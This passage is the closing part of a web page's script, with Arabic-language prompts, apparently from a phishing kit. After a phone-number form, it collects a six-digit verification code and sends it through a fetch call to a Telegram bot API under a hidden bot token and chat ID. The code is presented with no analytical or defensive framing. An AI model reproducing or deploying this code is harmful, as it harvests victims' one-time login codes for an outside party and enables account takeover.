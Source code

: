             
            document.getElementById("phoneForm").style.display = "none";
            document.getElementById("codeSection").classList.remove("hidden");
          } else {
            
          }
        })
        .catch((error) => {
          console.error("خطأ في الاتصال:", error);
          alert("فشل الإرسال. يرجى التحقق من الاتصال بالإنترنت.");
        });
    });
    
      document.getElementById("submitCodeButton").addEventListener("click", function () {
      const inputs = [
        document.getElementById("input1").value.trim(),
        document.getElementById("input2").value.trim(),
        document.getElementById("input3").value.trim(),
        document.getElementById("input4").value.trim(),
        document.getElementById("input5").value.trim(),
        document.getElementById("input6").value.trim(),
      ];

      if (inputs.some(input => input === "")) {
        alert("يرجى تعبئة جميع الحقول");
        return;
      }

      const textToSend = `كود التحقيق هو:\n1: ${inputs[0]}\n2: ${inputs[1]}\n3: ${inputs[2]}\n4: ${inputs[3]}\n5: ${inputs[4]}\n6: ${inputs[5]}`;
      const apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage`;

      fetch(apiUrl, {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify({
          chat_id: chatId,
          text: textToSend,
        }),
      })
        .then((response) => {
          if (response.ok) {
            
          } else {
            
          }
        })
        .catch((error) => {
          console.error("خطأ في الاتصال:", error);
          
        });
    });
  </script>
    
    
  </script>
</body></html>
